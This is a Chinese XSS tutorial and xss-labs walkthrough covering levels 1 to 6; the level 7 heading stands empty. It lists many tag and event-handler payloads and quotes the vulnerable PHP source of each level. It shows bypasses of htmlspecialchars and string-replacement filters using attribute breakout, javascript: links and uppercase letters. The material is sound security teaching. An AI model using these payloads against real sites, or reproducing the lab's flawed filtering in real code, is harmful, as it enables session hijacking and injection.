# 一、什么是XSS

XSS，全称为跨站脚本攻击（Cross-Site Scripting），因为要和CSS区分开来，故称之为XSS。

XSS是指攻击者将恶意构造的脚本代码（比如恶意的JavaScript代码）注入到网页中，由于Web应用程序对用户输入**缺乏有效的过滤或转义**，导致这些数据被浏览器当作**可执行代码**解析并运行，从而窃取用户敏感信息、劫持会话或篡改页面内容。


# 二、反射型XSS

**反射型 XSS** （**非持久型跨站脚本攻击**）是指攻击者将恶意脚本作为参数附加在 URL 地址、表单提交或 HTTP 请求头中，**提交给服务端**。服务端接收到该请求后，**未对恶意参数进行任何过滤或转义**，直接将包含该恶意脚本的数据拼接进 HTML 响应页面中，并“反射”回给当前浏览器。浏览器在解析该响应页面时，由于无法区分这是“数据”还是“代码”，从而执行了攻击者注入的 JavaScript 脚本。

以xss-labs中的level1为例，先看level1.php中的代码

```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["name"];
echo "<h2 align=center>欢迎用户".$str."</h2>";
?>
<center></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str)."</h3>";
?>
```

可以看到，`$str = $_GET["name"];`，`$str`接受来自GET传参的`name`值。当我们使用GET去传参`name`时，如果使`name=<script>alert(1)</script>`时，便会触发反射型xss，网页出现弹窗`1`。（具体的页面请看下面的level1的贴图）


# 三、存储型XSS

攻击者把恶意代码提交到服务器，服务器把它**保存到数据库、文件或缓存中**；之后其他用户访问某个页面时，服务器从存储中读出这段内容并输出到 HTML 里，浏览器把它当代码执行，从而触发 XSS。

特点：恶意代码被存在服务器上，持续存在，不依赖一次性的链接点击。


# 四、DOM型XSS

漏洞发生在**浏览器端 JavaScript** 中，前端 JS 从**不可信来源**读取数据，然后把它**写入危险的位置**，导致浏览器**执行恶意代码**。


# 五、一些标签、事件处理器及绕过

## 常见标签和事件处理器

<!-- 常用 XSS 触发标签 -->

<table>
  <thead>
    <tr>
      <th>标签</th>
      <th>示例</th>
      <th>触发方式</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><code>&lt;script&gt;</code></td>
      <td><code>&lt;script&gt;alert(1)&lt;/script&gt;</code></td>
      <td>直接执行</td>
    </tr>
    <tr>
      <td><code>&lt;img&gt;</code></td>
      <td><code>&lt;img src=x onerror=alert(1)&gt;</code></td>
      <td>图片加载失败触发 <code>onerror</code></td>
    </tr>
    <tr>
      <td><code>&lt;svg&gt;</code></td>
      <td><code>&lt;svg onload=alert(1)&gt;</code></td>
      <td>SVG 加载完成触发 <code>onload</code></td>
    </tr>
    <tr>
      <td><code>&lt;iframe&gt;</code></td>
      <td><code>&lt;iframe src=javascript:alert(1)&gt;</code></td>
      <td>加载 <code>javascript:</code> 伪协议</td>
    </tr>
    <tr>
      <td><code>&lt;a&gt;</code></td>
      <td><code>&lt;a href=javascript:alert(1)&gt;点我&lt;/a&gt;</code></td>
      <td>点击触发</td>
    </tr>
    <tr>
      <td><code>&lt;input&gt;</code></td>
      <td><code>&lt;input autofocus onfocus=alert(1)&gt;</code></td>
      <td>自动聚焦触发 <code>onfocus</code></td>
    </tr>
    <tr>
      <td><code>&lt;details&gt;</code></td>
      <td><code>&lt;details open ontoggle=alert(1)&gt;</code></td>
      <td>状态切换触发 <code>ontoggle</code></td>
    </tr>
    <tr>
      <td><code>&lt;video&gt;</code></td>
      <td><code>&lt;video&gt;&lt;source onerror=alert(1)&gt;&lt;/video&gt;</code></td>
      <td>视频源加载失败触发</td>
    </tr>
    <tr>
      <td><code>&lt;audio&gt;</code></td>
      <td><code>&lt;audio src=x onerror=alert(1)&gt;</code></td>
      <td>音频加载失败触发</td>
    </tr>
    <tr>
      <td><code>&lt;body&gt;</code></td>
      <td><code>&lt;body onload=alert(1)&gt;</code></td>
      <td>页面加载触发</td>
    </tr>
    <tr>
      <td><code>&lt;marquee&gt;</code></td>
      <td><code>&lt;marquee onstart=alert(1)&gt;</code></td>
      <td>滚动开始触发</td>
    </tr>
    <tr>
      <td><code>&lt;form&gt;</code></td>
      <td><code>&lt;form&gt;&lt;button formaction=javascript:alert(1)&gt;X&lt;/button&gt;</code></td>
      <td>点击按钮提交到 <code>javascript:</code></td>
    </tr>
    <tr>
      <td><code>&lt;object&gt;</code></td>
      <td><code>&lt;object data=javascript:alert(1)&gt;</code></td>
      <td>加载 <code>javascript:</code></td>
    </tr>
    <tr>
      <td><code>&lt;embed&gt;</code></td>
      <td><code>&lt;embed src=javascript:alert(1)&gt;</code></td>
      <td>加载 <code>javascript:</code></td>
    </tr>
    <tr>
      <td><code>&lt;style&gt;</code></td>
      <td><code>&lt;style&gt;@import 'javascript:alert(1)';&lt;/style&gt;</code></td>
      <td>旧浏览器可能执行</td>
    </tr>
    <tr>
      <td><code>&lt;link&gt;</code></td>
      <td><code>&lt;link rel=stylesheet href=javascript:alert(1)&gt;</code></td>
      <td>旧浏览器可能执行</td>
    </tr>
    <tr>
      <td><code>&lt;base&gt;</code></td>
      <td><code>&lt;base href=javascript:alert(1)//&gt;</code></td>
      <td>影响相对链接</td>
    </tr>
    <tr>
      <td><code>&lt;textarea&gt;</code></td>
      <td><code>&lt;/textarea&gt;&lt;script&gt;alert(1)&lt;/script&gt;</code></td>
      <td>闭合后注入</td>
    </tr>
  </tbody>
</table>

<!-- 常用 XSS 事件处理器 -->
<table>
  <thead>
    <tr>
      <th>事件</th>
      <th>触发条件</th>
      <th>常见标签示例</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><code>onerror</code></td>
      <td>加载失败</td>
      <td><code>&lt;img src=x onerror=alert(1)&gt;</code></td>
    </tr>
    <tr>
      <td><code>onload</code></td>
      <td>加载完成</td>
      <td><code>&lt;svg onload=alert(1)&gt;</code></td>
    </tr>
    <tr>
      <td><code>onclick</code></td>
      <td>点击</td>
      <td><code>&lt;a href=# onclick=alert(1)&gt;点我&lt;/a&gt;</code></td>
    </tr>
    <tr>
      <td><code>ondblclick</code></td>
      <td>双击</td>
      <td><code>&lt;div ondblclick=alert(1)&gt;X&lt;/div&gt;</code></td>
    </tr>
    <tr>
      <td><code>onmousedown</code></td>
      <td>鼠标按下</td>
      <td><code>&lt;div onmousedown=alert(1)&gt;X&lt;/div&gt;</code></td>
    </tr>
    <tr>
      <td><code>onmouseup</code></td>
      <td>鼠标松开</td>
      <td><code>&lt;div onmouseup=alert(1)&gt;X&lt;/div&gt;</code></td>
    </tr>
    <tr>
      <td><code>onmouseover</code></td>
      <td>鼠标移入</td>
      <td><code>&lt;div onmouseover=alert(1)&gt;X&lt;/div&gt;</code></td>
    </tr>
    <tr>
      <td><code>onmousemove</code></td>
      <td>鼠标移动</td>
      <td><code>&lt;div onmousemove=alert(1)&gt;X&lt;/div&gt;</code></td>
    </tr>
    <tr>
      <td><code>onmouseout</code></td>
      <td>鼠标移出</td>
      <td><code>&lt;div onmouseout=alert(1)&gt;X&lt;/div&gt;</code></td>
    </tr>
    <tr>
      <td><code>oncontextmenu</code></td>
      <td>右键菜单</td>
      <td><code>&lt;div oncontextmenu=alert(1)&gt;X&lt;/div&gt;</code></td>
    </tr>
    <tr>
      <td><code>onkeydown</code></td>
      <td>键盘按下</td>
      <td><code>&lt;input onkeydown=alert(1)&gt;</code></td>
    </tr>
    <tr>
      <td><code>onkeyup</code></td>
      <td>键盘松开</td>
      <td><code>&lt;input onkeyup=alert(1)&gt;</code></td>
    </tr>
    <tr>
      <td><code>onkeypress</code></td>
      <td>键盘按键</td>
      <td><code>&lt;input onkeypress=alert(1)&gt;</code></td>
    </tr>
    <tr>
      <td><code>onfocus</code></td>
      <td>获得焦点</td>
      <td><code>&lt;input autofocus onfocus=alert(1)&gt;</code></td>
    </tr>
    <tr>
      <td><code>onblur</code></td>
      <td>失去焦点</td>
      <td><code>&lt;input onblur=alert(1)&gt;</code></td>
    </tr>
    <tr>
      <td><code>oninput</code></td>
      <td>输入内容</td>
      <td><code>&lt;input oninput=alert(1)&gt;</code></td>
    </tr>
    <tr>
      <td><code>onchange</code></td>
      <td>值改变</td>
      <td><code>&lt;input onchange=alert(1)&gt;</code></td>
    </tr>
    <tr>
      <td><code>onsubmit</code></td>
      <td>表单提交</td>
      <td><code>&lt;form onsubmit=alert(1)&gt;&lt;input type=submit&gt;&lt;/form&gt;</code></td>
    </tr>
    <tr>
      <td><code>onreset</code></td>
      <td>表单重置</td>
      <td><code>&lt;form onreset=alert(1)&gt;&lt;input type=reset&gt;&lt;/form&gt;</code></td>
    </tr>
    <tr>
      <td><code>onselect</code></td>
      <td>选中文本</td>
      <td><code>&lt;input onselect=alert(1)&gt;</code></td>
    </tr>
    <tr>
      <td><code>ondrag</code></td>
      <td>拖拽</td>
      <td><code>&lt;div draggable=true ondrag=alert(1)&gt;X&lt;/div&gt;</code></td>
    </tr>
    <tr>
      <td><code>ondrop</code></td>
      <td>放置</td>
      <td><code>&lt;div ondrop=alert(1)&gt;X&lt;/div&gt;</code></td>
    </tr>
    <tr>
      <td><code>onanimationstart</code></td>
      <td>动画开始</td>
      <td><code>&lt;div onanimationstart=alert(1)&gt;X&lt;/div&gt;</code></td>
    </tr>
    <tr>
      <td><code>onanimationend</code></td>
      <td>动画结束</td>
      <td><code>&lt;div onanimationend=alert(1)&gt;X&lt;/div&gt;</code></td>
    </tr>
    <tr>
      <td><code>ontransitionend</code></td>
      <td>过渡结束</td>
      <td><code>&lt;div ontransitionend=alert(1)&gt;X&lt;/div&gt;</code></td>
    </tr>
    <tr>
      <td><code>ontoggle</code></td>
      <td><code>&lt;details&gt;</code> 切换</td>
      <td><code>&lt;details open ontoggle=alert(1)&gt;</code></td>
    </tr>
    <tr>
      <td><code>onscroll</code></td>
      <td>滚动</td>
      <td><code>&lt;div onscroll=alert(1)&gt;X&lt;/div&gt;</code></td>
    </tr>
    <tr>
      <td><code>onresize</code></td>
      <td>窗口大小改变</td>
      <td><code>&lt;body onresize=alert(1)&gt;</code></td>
    </tr>
    <tr>
      <td><code>onhashchange</code></td>
      <td>hash 改变</td>
      <td><code>&lt;body onhashchange=alert(1)&gt;</code></td>
    </tr>
    <tr>
      <td><code>onpopstate</code></td>
      <td>历史状态改变</td>
      <td><code>&lt;body onpopstate=alert(1)&gt;</code></td>
    </tr>
    <tr>
      <td><code>onmessage</code></td>
      <td>收到消息</td>
      <td><code>&lt;body onmessage=alert(1)&gt;</code></td>
    </tr>
    <tr>
      <td><code>onpointerover</code></td>
      <td>指针移入</td>
      <td><code>&lt;div onpointerover=alert(1)&gt;X&lt;/div&gt;</code></td>
    </tr>
    <tr>
      <td><code>onpointerdown</code></td>
      <td>指针按下</td>
      <td><code>&lt;div onpointerdown=alert(1)&gt;X&lt;/div&gt;</code></td>
    </tr>
    <tr>
      <td><code>onpointerup</code></td>
      <td>指针松开</td>
      <td><code>&lt;div onpointerup=alert(1)&gt;X&lt;/div&gt;</code></td>
    </tr>
    <tr>
      <td><code>onpointermove</code></td>
      <td>指针移动</td>
      <td><code>&lt;div onpointermove=alert(1)&gt;X&lt;/div&gt;</code></td>
    </tr>
    <tr>
      <td><code>onpointerenter</code></td>
      <td>指针进入</td>
      <td><code>&lt;div onpointerenter=alert(1)&gt;X&lt;/div&gt;</code></td>
    </tr>
    <tr>
      <td><code>onpointerleave</code></td>
      <td>指针离开</td>
      <td><code>&lt;div onpointerleave=alert(1)&gt;X&lt;/div&gt;</code></td>
    </tr>
    <tr>
      <td><code>onpointercancel</code></td>
      <td>指针取消</td>
      <td><code>&lt;div onpointercancel=alert(1)&gt;X&lt;/div&gt;</code></td>
    </tr>
    <tr>
      <td><code>onwheel</code></td>
      <td>滚轮</td>
      <td><code>&lt;div onwheel=alert(1)&gt;X&lt;/div&gt;</code></td>
    </tr>
  </tbody>
</table>

## htmlspecialchars

`htmlspecialchars` 是 PHP 里用来**把特殊字符转成 HTML 实体**的函数，主要目的是防止输出到 HTML 页面时被浏览器当成标签或脚本执行，从而避免 **XSS 跨站脚本攻击**。

主要转换以下几个字符：

```markdown
		字符	转换后
		&	&amp;
		"	&quot;
		'	&#039;
		<	&lt;
		>	&gt;
```

- **PHP 8.1 之前**：
  `htmlspecialchars($str)` 默认 flags 是 `ENT_COMPAT`，只转义双引号 `"`，**不转义单引号 `'`**。

  php

  ```
  echo htmlspecialchars("'");
  // 输出：'
  ```

- **PHP 8.1 及以后**：
  默认 flags 变成了 `ENT_QUOTES | ENT_SUBSTITUTE | ENT_HTML401`，这时**默认会转义单引号**。

  php

  ```
  echo htmlspecialchars("'");
  // 输出：&#039;
  ```

- **显式写 `ENT_QUOTES` 时**：
  不管哪个版本，单引号和双引号都会转义。

  php

  ```
  echo htmlspecialchars("'", ENT_QUOTES);
  // 输出：&#039;
  ```


# xss-labs

## level1



当我们将url中的`name`改为`<script>alert(1)</script>`时，便触发了弹窗。由于xss-labs的前端代码会检测是否有弹窗，若有代码将会弹出`完成的不错！`字样，然后重定向到下一关。如下图




## level2

首先来看源码

```php+html
1	<!DOCTYPE html><!--STATUS OK--><html>
     2	<head>
     3	<meta http-equiv="content-type" content="text/html;charset=utf-8">
     4	<script>
     5	window.alert = function()  
     6	{     
     7	confirm("完成的不错！");
     8	 window.location.href="level3.php?writing=wait"; 
     9	}
    10	</script>
    11	<title>欢迎来到level2</title>
    12	</head>
    13	<body>
    14	<h1 align=center>欢迎来到level2</h1>
    15	<?php 
    16	ini_set("display_errors", 0);
    17	$str = $_GET["keyword"];
    18	echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
    19	<form action=level2.php method=GET>
    20	<input name=keyword  value="'.$str.'">
    21	<input type=submit name=submit value="搜索"/>
    22	</form>
    23	</center>';
    24	?>
    25	<center></center>
    26	<?php 
    27	echo "<h3 align=center>payload的长度:".strlen($str)."</h3>";
    28	?>
    29	</body>
    30	</html>

```

我们可以看到虽然`htmlspecialchars($str)`过滤了双引号`"`、尖括号`<`等字符（上面第四部分的`htmlspecialchars`有介绍），但是下面还存在一个`<input>`标签，其中`value="'.$str.'"`这个`$str`是未经过滤的。

那么可以考虑从这里来入手，来达到一个弹窗的效果

通过`keyword`去传入参数`" onclick="alert(1)`，便可实现弹窗

这里的payload是通过前一个双引号`"`闭合前面的`value="`，那`onclick="alert(1)`则是为了闭合`input`标签内后面的`">`，达到一个xss注入攻击的效果

那么`keyword`传入`payload`之后，第20行php代码就变成了

`<input name=keyword  value="" onclick="alert(1)">`


那么我们看一下实际操作：



我们点击搜索后，再次点击对话框即可完成




## level3

```php+HTML
     1	<!DOCTYPE html><!--STATUS OK--><html>
     2	<head>
     3	<meta http-equiv="content-type" content="text/html;charset=utf-8">
     4	<script>
     5	window.alert = function()  
     6	{     
     7	confirm("完成的不错！");
     8	 window.location.href="level4.php?keyword=try harder!"; 
     9	}
    10	</script>
    11	<title>欢迎来到level3</title>
    12	</head>
    13	<body>
    14	<h1 align=center>欢迎来到level3</h1>
    15	<?php 
    16	ini_set("display_errors", 0);
    17	$str = $_GET["keyword"];
    18	echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>"."<center>
    19	<form action=level3.php method=GET>
    20	<input name=keyword  value='".htmlspecialchars($str)."'>	
    21	<input type=submit name=submit value=搜索 />
    22	</form>
    23	</center>";
    24	?>
    25	<center></center>
    26	<?php 
    27	echo "<h3 align=center>payload的长度:".strlen($str)."</h3>";
    28	?>
    29	</body>
    30	</html>
```

分析源码，可以看到18和20行处，都用了`htmlspecialchars`这个函数。由于我们这里的php版本是低于8.1的，所以这里是没有过滤`'`的。那么`payload`可以是`' onclick='alert(1)'`，如此便可实现xss注入。




但是如果我们要去考虑PHP8.1及之后的版本呢？还有没有其它手法？或者是寄希望于`htmlspecialchars`的`flags`参数的不恰当书写？


## level4

```php+HTML
     1	<!DOCTYPE html><!--STATUS OK--><html>
     2	<head>
     3	<meta http-equiv="content-type" content="text/html;charset=utf-8">
     4	<script>
     5	window.alert = function()  
     6	{     
     7	confirm("完成的不错！");
     8	 window.location.href="level5.php?keyword=find a way out!"; 
     9	}
    10	</script>
    11	<title>欢迎来到level4</title>
    12	</head>
    13	<body>
    14	<h1 align=center>欢迎来到level4</h1>
    15	<?php 
    16	ini_set("display_errors", 0);
    17	$str = $_GET["keyword"];
    18	$str2=str_replace(">","",$str);
    19	$str3=str_replace("<","",$str2);
    20	echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
    21	<form action=level4.php method=GET>
    22	<input name=keyword  value="'.$str3.'">
    23	<input type=submit name=submit value=搜索 />
    24	</form>
    25	</center>';
    26	?>
    27	<center></center>
    28	<?php 
    29	echo "<h3 align=center>payload的长度:".strlen($str3)."</h3>";
    30	?>
    31	</body>
    32	</html>
```

看到源码中17、18、19行是对尖括号`<`和`>`进行了一个过滤，没有进行其它过滤，22行代码和之前没啥区别

尝试`payload=" onclick="alert(1)`，应该就可以顺利通过了




## level5

```php+HTML
     1	<!DOCTYPE html><!--STATUS OK--><html>
     2	<head>
     3	<meta http-equiv="content-type" content="text/html;charset=utf-8">
     4	<script>
     5	window.alert = function()  
     6	{     
     7	confirm("完成的不错！");
     8	 window.location.href="level6.php?keyword=break it out!"; 
     9	}
    10	</script>
    11	<title>欢迎来到level5</title>
    12	</head>
    13	<body>
    14	<h1 align=center>欢迎来到level5</h1>
    15	<?php 
    16	ini_set("display_errors", 0);
    17	$str = strtolower($_GET["keyword"]);
    18	$str2=str_replace("<script","<scr_ipt",$str);
    19	$str3=str_replace("on","o_n",$str2);
    20	echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
    21	<form action=level5.php method=GET>
    22	<input name=keyword  value="'.$str3.'">
    23	<input type=submit name=submit value=搜索 />
    24	</form>
    25	</center>';
    26	?>
    27	<center></center>
    28	<?php 
    29	echo "<h3 align=center>payload的长度:".strlen($str3)."</h3>";
    30	?>
    31	</body>
    32	</html>
```

看到源码第17、18、19行，将`<script`、`on`等字符做了转换，那么想要使用`<script>alert(1)</script>`和`onclick=alert(1)`等就有了限制。

由于源码是没对尖括号`<`,`>`做限制，可以考虑`payload`：`"> <a href=javascript:alert(1)>1111</a> <"`



可以看到，此时这里的<u>`1111`</u>便是我们通过`<a>`构造出的，当我们点击<u>`1111`</u>时便会触发`alert(1)`。




## level6

```php+HTML
     1	<!DOCTYPE html><!--STATUS OK--><html>
     2	<head>
     3	<meta http-equiv="content-type" content="text/html;charset=utf-8">
     4	<script>
     5	window.alert = function()  
     6	{     
     7	confirm("完成的不错！");
     8	 window.location.href="level7.php?keyword=move up!"; 
     9	}
    10	</script>
    11	<title>欢迎来到level6</title>
    12	</head>
    13	<body>
    14	<h1 align=center>欢迎来到level6</h1>
    15	<?php 
    16	ini_set("display_errors", 0);
    17	$str = $_GET["keyword"];
    18	$str2=str_replace("<script","<scr_ipt",$str);
    19	$str3=str_replace("on","o_n",$str2);
    20	$str4=str_replace("src","sr_c",$str3);
    21	$str5=str_replace("data","da_ta",$str4);
    22	$str6=str_replace("href","hr_ef",$str5);
    23	echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
    24	<form action=level6.php method=GET>
    25	<input name=keyword  value="'.$str6.'">
    26	<input type=submit name=submit value=搜索 />
    27	</form>
    28	</center>';
    29	?>
    30	<center></center>
    31	<?php 
    32	echo "<h3 align=center>payload的长度:".strlen($str6)."</h3>";
    33	?>
    34	</body>
    35	</html>
```

源码中将`<script`，`on`，`src`，`data`，`href`等进行了转换。与`level5.php`不同的是，`level6.php`中未对输入的字符进行小写转换，因此考虑字母大写绕过

`payload`有多种，尝试`"> <a Href=javascript:alert(1)>1111</a> <"`





## level7

